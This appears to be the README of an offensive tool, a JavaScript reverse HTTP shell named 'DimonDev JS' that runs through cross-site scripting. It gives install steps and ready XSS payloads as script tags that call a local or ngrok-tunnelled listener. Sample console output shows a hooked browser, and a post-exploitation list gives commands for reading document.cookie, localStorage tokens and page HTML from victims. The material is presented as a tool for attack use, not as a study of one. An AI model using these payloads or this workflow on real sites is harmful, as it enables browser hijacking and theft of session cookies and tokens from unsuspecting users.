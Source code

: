 # Description
 A reverse shell in JavaScript using HTTP to communicate, used to confirm blind XSS vulnerabilities and a tool for browser post-exploitation.
# Setup and Use
``pip install pyngrok socketserver``

Then, run in terminal or cmd:

``python server.py``

Now, run the JavaScript XSS payload on the target (Or simply open the HTML payload in the browser).

````
  ____  _                       ____      _ ____  
 |  _ \(_)_ __ ___   ___  _ __ |  _ \    | / ___|
 | | | | | '_ ` _ \ / _ \| '_ \| | | |_  | \___ \
 | |_| | | | | | | | (_) | | | | |_| | |_| |___) |
 |____/|_|_| |_| |_|\___/|_| |_|____/ \___/|____/  v1.3

 <------------ Developed by DimonDev ------------>


[!] Execute one of these payloads on the target:

Local target:

<script src="http://localhost:6969/?command=get_script"></script>
The HTML payload: http://localhost:6969/

Remote target:

<script src="https://aaaabbbbcccc.ngrok-free.app/?command=get_script"></script>
The HTML payload: https://aaaabbbbcccc.ngrok-free.app

[+] Listener server started over WAN - https://aaaabbbbcccc.ngrok-free.app
[+] Listening on port 6969
````

When a the target is connected, it will spawn a reverse HTTP shell (type command help):

````
  ____  _                       ____      _ ____  
 |  _ \(_)_ __ ___   ___  _ __ |  _ \    | / ___|
 | | | | | '_ ` _ \ / _ \| '_ \| | | |_  | \___ \
 | |_| | | | | | | | (_) | | | | |_| | |_| |___) |
 |____/|_|_| |_| |_|\___/|_| |_|____/ \___/|____/  v1.3

 <------------ Developed by DimonDev ------------>


[!] Execute one of these payloads on the target:

Local target:

<script src="http://localhost:6969/?command=get_script"></script>
The HTML payload: http://localhost:6969/

Remote target:

<script src="https://aaaabbbbcccc.ngrok-free.app/?command=get_script"></script>
The HTML payload: https://aaaabbbbcccc.ngrok-free.app

[+] Listener server started over WAN - https://aaaabbbbcccc.ngrok-free.app
[+] Listening on port 6969

127.0.0.1 - - [03/May/2023 23:47:55] "GET /?command=get_script HTTP/1.1" 200 -
127.0.0.1~# 
127.0.0.1 - - [03/May/2023 23:47:55] "GET /shell HTTP/1.1" 200 -
127.0.0.1 - - [03/May/2023 23:47:56] code 404, message Not Found
127.0.0.1 - - [03/May/2023 23:47:56] "GET /favicon.ico HTTP/1.1" 404 -

undefined

127.0.0.1~#
127.0.0.1 - - [03/May/2023 23:47:56] "GET /shell?resp=undefined HTTP/1.1" 200 -
127.0.0.1~# 
127.0.0.1 - - [03/May/2023 23:47:56] "GET /shell HTTP/1.1" 200 -

undefined

127.0.0.1~#
127.0.0.1 - - [03/May/2023 23:47:57] "GET /shell?resp=undefined HTTP/1.1" 200 -
127.0.0.1~# 
127.0.0.1 - - [03/May/2023 23:47:58] "GET /shell HTTP/1.1" 200 -

undefined

127.0.0.1~# help

---------------------------------------------------------
Usage:
    You can either input a Javascript snippet or use
    the internal commands.

Commands:
    help - Prints this message.
    getip - Fetches the public IP of the target.
    vulnscan - Scans for possible CVEs in the target
                browser.
    info CVE-0000-0000 - Information about a CVE.
    exploit CVE-0000-0000 - (For now, it only prints
                                exploit-db url)

Useful JavaScript:
    document.documentURI
    document.location
    document.domain
    document.body.innerHTML
    document.head.innerHTML
    document.cookie
    localStorage
    localStorage.getItem("SOME_ITEM_OR_TOKEN")
    navigator.userAgent
    navigator.platform
    navigator.vibrate()
    navigator.javaEnabled()
    navigator.languages
    navigator.maxTouchPoints
    navigator.buildID

----------------- Developed by DimonDev -----------------

127.0.0.1~#
````

# Post-exploitation
You can now use the JavaScript console remotely.
Here are some interesting commands to use:
1. `document.documentURI`: This property returns the URI (Uniform Resource Identifier) of the current document.
2. `document.location`: This property returns a Location object, which contains information about the current URL of the document, including the protocol, host, port, pathname, and search parameters.
3. `document.domain`: This property returns the domain of the current document's URL. This property is often used to enable cross-origin scripting between documents served from different domains.
4. `document.body.innerHTML`: This property allows you to get or set the HTML content of the `<body>` element of the current document. When you set this property, the existing content of the `<body>` element is replaced with the new content.
5. `document.head.innerHTML`: This property allows you to get or set the HTML content of the `<head>` element of the current document. When you set this property, the existing content of the `<head>` element is replaced with the new content.
6. `document.cookie`: This property allows you to get or set the cookies associated with the current document. Cookies are small pieces of data that are stored on the client-side and are often used to persist user preferences or authentication information.
7. `localStorage`: This is an object that provides a simple key-value store for persisting data on the client-side. Unlike cookies, data stored in localStorage is not sent to the server with every request.
8. `localStorage.getItem("SOME_ITEM_OR_TOKEN")`: This method allows you to retrieve an item from localStorage based on its key. The key is a string that you provide when you store the item.
9. `navigator.platform`: This property returns a string that identifies the operating system platform that the browser is running on (e.g., "MacIntel", "Win32", "Linux x86_64", etc.).
10. `navigator.vibrate()`: This method allows you to trigger a vibration effect on the user's device. This method takes an array of integers that specifies the pattern of vibration (e.g., `[100, 200, 300]` would vibrate for 100ms, then pause for 200ms, then vibrate for 300ms).
11. `navigator.javaEnabled()`: This method returns a boolean indicating whether the browser has Java support enabled.
12. `navigator.languages`: This property returns an array of strings that represents the user's preferred languages for content.
13. `navigator.maxTouchPoints`: This property returns the maximum number of simultaneous touch points that the user's device supports.
14. `navigator.buildID`: This property returns a string that identifies the build of the browser that the user is using. This value is often used for debugging purposes.
Remember to get creative!
